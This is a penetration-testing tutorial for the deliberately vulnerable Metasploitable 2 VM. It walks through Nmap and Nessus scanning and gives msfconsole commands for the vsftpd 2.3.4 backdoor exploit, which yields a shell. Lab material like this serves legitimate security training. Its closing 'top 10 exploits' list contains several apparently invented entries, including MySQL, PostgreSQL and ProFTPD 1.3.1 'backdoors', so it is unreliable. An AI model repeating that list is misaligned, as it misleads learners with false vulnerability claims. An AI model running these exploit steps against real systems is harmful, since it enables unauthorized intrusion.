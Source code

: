 
Metasploitable 2: A Hands-On Guide to Vulnerability Scanning and Exploitation

Metasploitable 2 is a deliberately vulnerable Linux virtual machine designed for security professionals and enthusiasts to practice penetration testing and vulnerability assessment techniques. Developed by Rapid7, it offers a safe environment to explore various vulnerabilities commonly found in real-world systems.

Setting Up Metasploitable 2

To get started, download the Metasploitable 2 VM image from the official repository. Import the VM into your preferred virtualization platform, such as VirtualBox or VMware. Once set up, start the VM and log in using the default credentials:

- Username: msfadmin
- Password: msfadmin

Ensure that both your attacking machine (e.g., Kali Linux) and the Metasploitable 2 VM are on the same network to facilitate communication.

Basic Vulnerability Scanning with Nmap

The first step in any penetration test is reconnaissance. Nmap (Network Mapper) is a powerful tool for discovering hosts and services on a network. To perform a basic scan of the Metasploitable 2 VM, use the following command:

nmap -sS -sV -O <target_ip>

- -sS: Performs a SYN scan (stealth scan).
- -sV: Detects service versions.
- -O: Attempts to determine the operating system.

This scan will provide information about open ports, running services, and their versions, which are crucial for identifying potential vulnerabilities.

Identifying Vulnerabilities with Nessus

While Nmap provides basic information, Nessus offers a more comprehensive vulnerability assessment. Nessus Essentials is a free version suitable for personal use. After installing Nessus on your attacking machine, log in to the web interface and create a new scan targeting the Metasploitable 2 IP address.

Nessus will perform an in-depth analysis and generate a report detailing discovered vulnerabilities, their severity, and potential remediation steps. This report is invaluable for planning exploitation strategies.

Exploiting Vulnerabilities with Metasploit

Metasploit is a powerful framework for developing and executing exploit code against a remote target machine. After identifying vulnerabilities, you can use Metasploit to attempt exploitation.

For instance, if Nmap or Nessus identifies a vulnerable FTP service (e.g., vsftpd 2.3.4), you can exploit it using Metasploit:

1. Launch Metasploit:

msfconsole

2. Search for the exploit:

search vsftpd

3. Select the appropriate exploit:

use exploit/unix/ftp/vsftpd_234_backdoor

4. Set the target IP:

set RHOST <target_ip>

5. Run the exploit:

exploit

If successful, you will gain a shell on the target machine, allowing you to further investigate and exploit other vulnerabilities.

Top 10 Exploits in Metasploitable 2

The metasploitable2_exploits.txt file in the GitHub repository lists the top 10 exploits for Metasploitable 2. These include:

1. vsftpd 2.3.4 Backdoor Command Execution
2. UnrealIRCd 3.2.8.1 Backdoor Command Execution
3. Samba 3.0.20-4 usermap script Command Execution
4. Apache 2.2.8 mod_rewrite Command Execution
5. PostgreSQL 8.3.0-1 Backdoor Command Execution
6. MySQL 5.0.51a-3ubuntu5.1 Backdoor Command Execution
7. ProFTPD 1.3.1 Backdoor Command Execution
8. Joomla! 1.5.9 SQL Injection
9. Drupal 6.8 SQL Injection
10. PHP CGI Argument Injection

Conclusion

Metasploitable 2 serves as an excellent platform for learning and practicing penetration testing techniques. By combining tools like Nmap, Nessus, and Metasploit, you can simulate real-world attacks and enhance your cybersecurity skills. Always remember to conduct such activities in a legal and ethical manner, ensuring you have proper authorization before testing any systems.

For more detailed guides and tutorials, refer to Metasploit Unleashed and Metasploit Documentation resources.
